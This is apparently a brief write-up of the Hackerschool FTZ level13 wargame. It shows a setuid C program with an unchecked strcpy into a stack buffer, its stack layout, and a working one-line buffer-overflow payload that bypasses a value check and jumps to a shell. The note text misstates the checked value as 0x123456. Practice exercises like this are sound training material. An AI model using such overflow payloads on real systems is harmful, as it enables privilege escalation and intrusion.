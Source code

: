Hackerschool FTZ level13
===
~~~c
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}

~~~

~~~
RET  ebp+4   4byte
ESP  ebp     4byte //stack pointer  
dummy ebp-8 8byte
i    ebp-12  4byte //long 4byte
dummy ebp-24 12byte
buf  ebp-1048 1024byte char 1024byte
~~~

>dummy 1036byte + 0x123456 + dummy 12byte + /bin/sh

>>$ ./attackme `python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"\xa2\xf8\xff\xbf"